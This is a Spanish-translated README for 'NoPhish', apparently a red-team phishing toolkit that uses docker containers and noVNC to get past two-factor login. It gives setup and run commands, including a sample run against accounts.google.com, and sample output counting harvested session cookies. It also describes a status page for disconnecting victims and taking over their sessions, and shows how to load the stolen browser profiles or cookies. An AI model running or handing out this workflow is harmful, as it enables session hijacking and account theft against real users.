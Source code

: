 # NoPhish
 
Otro conjunto de herramientas de phishing que proporciona una infraestructura basada en docker y noVNC. Toda la configuración se basa en el artículo inicial de [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) y [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

Una descripción detallada de la configuración se puede encontrar aquí - [Otra herramienta de phishing](https://powerseb.github.io/posts/Another-phishing-tool/)

## Instalación

Asegúrese de que docker esté instalado y funcionando.

Instale los módulos de python requeridos:

```console
pip install lz4
```

Instale la configuración (que creará las imágenes de docker requeridas):

```console
setup.sh install
```

## Ejecución

La configuración ofrece los siguientes parámetros:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```

Una ejecución básica se ve de la siguiente manera:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```
Durante la ejecución, la siguiente visión general proporciona un estado por URL de cuántas cookies o informaciones de sesión se han recopilado.


```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Tenga en cuenta que la herramienta exportará todas las cookies / información de sesión incluso cuando no esté relacionada con un inicio de sesión exitoso.

Además, también puede interactuar directamente con la herramienta en la página de estado - `http(s)://%DOMAIN%:65534/status.php`. Allí tiene la posibilidad de desconectar al usuario y tomar el control directo de la sesión.

En la versión actual de la herramienta, para cada usuario se inician dos contenedores: uno para escritorios y otro para dispositivos móviles. Según el agente de usuario, el objetivo es redirigido al contenedor adecuado. La salida del contenedor móvil se nombra con una "m" al inicio (por ejemplo, mphis1-ffprofile).

## Uso de la exportación de perfil
Si está utilizando la exportación completa del perfil de FireFox, simplemente puede llamar a firefox con -profile de la siguiente manera:

En Windows:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

En Linux:
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

Todo se restaura, incluida la última página visitada.

Tenga en cuenta que por defecto debe extraer el archivo zip o establecer el parámetro `-z` en `false`. Si se elige el formato de exportación `-e simple`, se generarán dos archivos json que pueden usarse con Cookiebro, disponible para [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) y [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn).

## Limpieza

Durante la ejecución, el script puede ser terminado con `ctrl` + `c` - todos los contenedores docker en ejecución serán eliminados. Para eliminar completamente la configuración, ejecute `setup.sh cleanup`.



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-29

---